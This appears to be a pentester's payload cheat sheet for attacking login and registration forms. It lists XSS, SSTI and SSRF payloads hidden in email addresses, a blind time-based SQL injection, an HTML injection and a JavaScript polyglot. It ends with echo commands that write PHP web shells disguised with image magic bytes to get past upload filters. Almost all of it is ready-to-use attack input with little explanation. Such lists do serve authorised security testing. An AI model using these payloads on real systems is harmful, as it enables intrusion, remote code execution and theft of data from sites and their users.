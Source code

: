 Login and register payloads:

- valid Email payloads:
1. test+(<script>alert(0)</script>)@example.com
2. test@example(<script>alert(0)</script>).com
3. "<script>alert(0)</script>"@example.com


Sql injection:
(select(0)from(select(sleep(25)))v) --> Blind 25 seconds



SSTI template injection:
"<%= 7 * 7 %>"@example.com
test+(${{7*7}})@example.com

SSRF:
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
-------------------------
html injection(Can use match and replace in request body):
<u>123</u>


-------------
JS polyglots
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e


------
RCE payload to creating image:
echo -n -e '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]);?>.' > shell.jpg

echo -n -e '\x89\x50\x4E\x47<?php system($_GET["cmd"]);?>.' > shell.png

echo -n -e '\x47\x49\x46\x38<?php system($_GET["cmd"]);?>.' > shell.gif

echo -n -e '\x42\x4D<?php system($_GET["cmd"]);?>.' > shell.bmp